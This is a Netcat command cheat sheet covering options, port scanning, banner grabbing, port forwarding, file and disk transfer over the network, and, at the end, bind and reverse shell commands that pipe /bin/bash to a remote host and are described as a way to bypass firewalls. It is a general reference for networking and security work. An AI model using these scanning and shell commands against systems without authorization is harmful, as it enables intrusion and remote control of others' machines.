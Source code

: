 ```yaml
---
title: Netcat
date: 2020-11-25 18:28:43
icon: icon-netcat
background: bg-blue-600
tags: 
    - ncat
categories:
    - Linux Command
intro:  This cheat sheet provides various for using Netcat on both Linux and Unix.
---
```


Getting started {.cols-5}
---------------

### Usage {.col-span-2}

Connect to a host located anywhere

```shell script
$ nc [options] [host] [port]
```

Listen for incoming connections
```shell script 
$ nc -lp port [host] [port]
```



### Option examples {.col-span-3 .row-span-2}

| Option | Description                 | Example                                            |
|--------|-----------------------------|----------------------------------------------------|
| `-h`     | nc -h                       | Help                                               |
| `-z`     | nc -z 192.168.1.9 1-100        | Port scan for a host or IP address                 |
| `-v`     | nc -zv 192.168.1.9 1-100     |   Provide verbose output   | 
| `-n`     | nc -zn 192.168.1.9 1-100     | Fast scan by disabling DNS resolution              |
| `-l`     | nc -lp 8000                 | TCP Listen mode _(for inbound connects)_                                   |
| `-w`     | nc -w 180 192.168.1.9 8000     | Define timeout value                               |
| `-k`     | nc -kl 8000 | Continue listening after disconnection |
| `-u`     | nc -u 192.168.1.9 8000 | Use UDP instead of TCP |
| `-q`     | nc -q 1 192.168.1.9 8000 | Client stay up after EOF |
| `-4`     | nc -4 -l 8000 | IPv4 only                                          |
| `-6`     | nc -6 -l 8000 | IPv6 only                                          |


### Chat client-server {.col-span-2}
Server (192.168.1.9)
```shell script
$ nc -lv 8000
```

Client
```shell script
$ nc 192.168.1.9 8000
```



Examples {.cols-3}
--------

### Banner grabbing
```shell script
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```
or
```shell script
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25
```shell script
$ nc -zvn 192.168.1.1 21-25
```

Scan ports 22, 3306 and 8080
```shell script
$ nc -zvn 192.168.1.1 22 3306 8080
```


### Proxy and port forwarding
```shell script
$ nc -lp 8001 -c "nc 127.0.0.1 8000"
```
or
```shell script
$ nc -l 8001 | nc 127.0.0.1 8000
```
Create a tunnel from one local port to another



### Download file

Server (192.168.1.9)
```shell script
$ nc -lv 8000 < file.txt
```

Client
```shell script
$ nc -nv 192.168.1.9 8000 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.


### Upload file

Server (192.168.1.9)
```shell script
$ nc -lv 8000 > file.txt
```

Client
```shell script
$ nc 192.168.1.9 8000 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:


### Directory transfer

Server (192.168.1.9)
```shell script
$ tar -cvf – dir_name | nc -l 8000
```

Client
```shell script
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.


### Encrypt transfer {.col-span-2}


Server (192.168.1.9)
```shell script
$ nc -l 8000 | openssl enc -d -des3 -pass pass:password > file.txt
```

Client
```shell script
$ openssl enc -des3 -pass pass:password | nc 192.168.1.9 8000
```

Encrypt data before transfering over the network



### Clones

Server (192.168.1.9)
```shell script
$ dd if=/dev/sda | nc -l 8000
```

Client
```shell script
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda



### Video streaming

Server (192.168.1.9)
```shell script
$ cat video.avi | nc -l 8000
```

Client
```shell script {.wrap}
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat




### Remote shell

Server (192.168.1.9)
```shell script
$ nc -lv 8000 -e /bin/bash
```

Client
```shell script
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission to install them, then we can create remote shell using netcat also.



### Reverse shell

Server (192.168.1.9)
```shell script
$ nc -lv 8000
```

Client
```shell script
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections

